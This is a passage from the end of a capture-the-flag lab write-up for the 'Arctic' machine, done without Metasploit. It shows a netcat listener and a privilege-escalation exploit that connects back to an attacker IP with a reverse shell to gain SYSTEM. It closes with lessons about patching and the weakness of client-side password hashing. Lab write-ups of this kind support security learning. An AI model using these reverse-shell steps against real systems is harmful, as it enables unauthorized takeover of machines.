 ```
cd C:\ColdFusion8\wwwroot\userfiles\file
```

![](../img/Arctic Writeup wo Metasploit/1_qPCUGbEgK8aqA21u5erKCw.png)

Start up another listener on the attack machine.

```
nc -nlvp 6666
```

Run the exploit.

```
exploit.exe 10.10.14.6 6666
```

We have system!

![](../img/Arctic Writeup wo Metasploit/1_HIOUV1dyIFzvmiuomNT85A.png)

Grab the root flag.

![](../img/Arctic Writeup wo Metasploit/1_dmzoWaGHptiks_u1v3fRCw.png)

# Lessons Learned

What allowed me to gain initial access to the machine and escalate privileges, is exploiting known vulnerabilities that had patches available. So it goes without saying, you should always update your software!

The second thing worth mentioning is the way the application handled passwords. The password was first hashed using SHA1 and then cryptographically hashed using HMAC with a salt value as the key. All this was done on the client side! What does client side mean? The client has access to all of it (and can bypass all of it)! I was able to access the administrator account without knowing the plaintext password.

Hashing passwords is a common approach to storing passwords securely. If an application gets hacked, the attacker should have to go through the trouble of cracking the hashed passwords before getting access to any user credentials. However, if hashing is being done on the client side as apposed to the server side, that would be equivalent to storing passwords in plaintext! As an attacker, I can bypass client side controls and use your hash to authenticate to your account. Therefore, in this case, if I get access to the password file I don’t need to run a password cracker. Instead, I can simply pass the hash.

# Conclusion

6 machines down, 35 more to go!

![](../img/Arctic Writeup wo Metasploit/1_NlGxJ7URzj_YMiBxJu1J3A.png)
